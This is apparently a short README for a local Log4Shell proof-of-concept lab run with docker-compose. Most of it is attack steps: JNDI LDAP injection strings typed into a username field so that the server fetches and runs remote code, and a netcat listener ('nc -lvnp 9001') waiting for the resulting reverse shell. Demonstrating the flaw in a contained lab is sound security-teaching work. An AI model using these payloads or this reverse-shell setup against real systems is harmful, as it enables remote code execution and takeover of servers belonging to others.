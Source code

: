 ## Log4shell proof of concept

To start:
```docker-compose up```

Go go localhost:8000 and fill into username:

```${jndi:ldap://exploit:9999/Evil}```


Go back and fill another time:
```${jndi:ldap://remote-code-execution:1389/a}```


Start terminal in Ubuntu:
```docker exec -it log4shell-equinor-ubuntu-1 bash```
Listen for reverse shell:
```nc -lvnp 9001```
